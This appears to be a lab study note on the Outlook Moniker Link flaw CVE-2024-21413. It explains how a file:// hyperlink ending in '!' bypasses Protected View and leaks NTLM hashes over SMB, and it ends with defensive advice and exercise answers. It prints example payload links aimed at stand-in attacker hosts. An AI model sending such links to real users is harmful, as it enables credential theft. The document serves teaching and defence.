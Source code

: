 # Task 2 - Moniker Link (CVE-2024-21413)

## Learning Objectives
- Understand Outlook's HTML email rendering capabilities
- Learn Moniker Link functionality and security implications
- Master Outlook Protected View security mechanisms
- Understand the vulnerability bypass technique
- Practice identifying Moniker Link types and bypass characters

## Overview
Moniker Links represent a powerful but potentially dangerous feature in Microsoft Outlook that allows emails to trigger external applications. Understanding how these links work and how they can be exploited is crucial for both security professionals and end users who need to recognize potential threats.

### Outlook Email Capabilities

**HTML Email Rendering**
- Outlook can render **emails as HTML**
- Enables rich formatting and interactive content
- Supports various HTML elements and attributes
- Provides enhanced user experience

**Hyperlink Parsing**
- Outlook can **parse hyperlinks** (HTTP and HTTPS)
- Automatically detects and formats clickable links
- Supports various URL schemes and protocols
- Enables direct navigation from email content

**Moniker Link Support**
- Outlook can open URLs **specifying applications** known as **Moniker Links**
- Allows emails to trigger external applications
- Outlook prompts security warning when external applications are triggered
- Provides integration with system applications

### Outlook Protected View

**Security Mechanism**
- Opens emails containing attachments, hyperlinks, and similar content in read-only mode
- Blocks potentially dangerous content such as **macros**
- Prevents automatic execution of malicious code
- Provides additional security layer for email content

**Protected View Features**
- Read-only email display
- Blocked macro execution
- Restricted hyperlink functionality
- Security warnings for external applications

### Moniker Link Exploitation

**File Protocol Moniker Links**
- Use `file://` Moniker link in hyperlinks
- Instructs Outlook to attempt accessing files on network shares
- Example: `<a href="file://ATTACKER_IP/test>Click me</a>`
- **SMB protocol** used for network file access

**Authentication Process**
- SMB protocol involves local credentials for authentication
- Outlook attempts to authenticate with remote file share
- Uses Windows NTLM authentication mechanism
- Credentials sent to remote system

**Protected View Blocking**
- Outlook Protected View catches and blocks file access attempts
- Prevents unauthorized network access
- Shows security warnings to users
- Blocks potential credential leakage

### Vulnerability Exploitation

**The Vulnerability**
- Modify hyperlink to include `! + some text`
- Results in bypassing Outlook's Protected View
- Example: `<a href="file://ATTACKER_MACHINE/test!exploit">Click me</a>`
- Special character `!` triggers bypass mechanism

**Bypass Mechanism**
- `!` character modifies Moniker Link behavior
- Circumvents Protected View security checks
- Allows file access attempts to proceed
- Enables credential leakage attacks

**Important Notes**
- Shared file does NOT need to exist on remote device
- Authentication attempt happens regardless of file existence
- Results in victim's Windows NTLM hash being sent to attacker
- Attack succeeds even without valid file share

### Practical Examples

**Exercise Questions**

**Question 1**: What Moniker Link type do we use in the hyperlink?
- **Answer**: `file://`

**Question 2**: What is the special character used to bypass Outlook's "protected view"?
- **Answer**: `!`

### Security Implications

**Attack Vectors**
- Email-based credential harvesting
- NTLM hash capture and cracking
- Lateral movement in network environments
- Privilege escalation opportunities

**Defense Strategies**
- Email security filtering
- Network monitoring for SMB traffic
- User security awareness training
- Regular security updates and patches

## Best Practices
- Be cautious with hyperlinks in emails from unknown sources
- Implement email security solutions that detect Moniker Links
- Monitor network traffic for unusual SMB authentication attempts
- Keep Outlook and Windows systems updated with latest patches
- Train users to recognize suspicious email content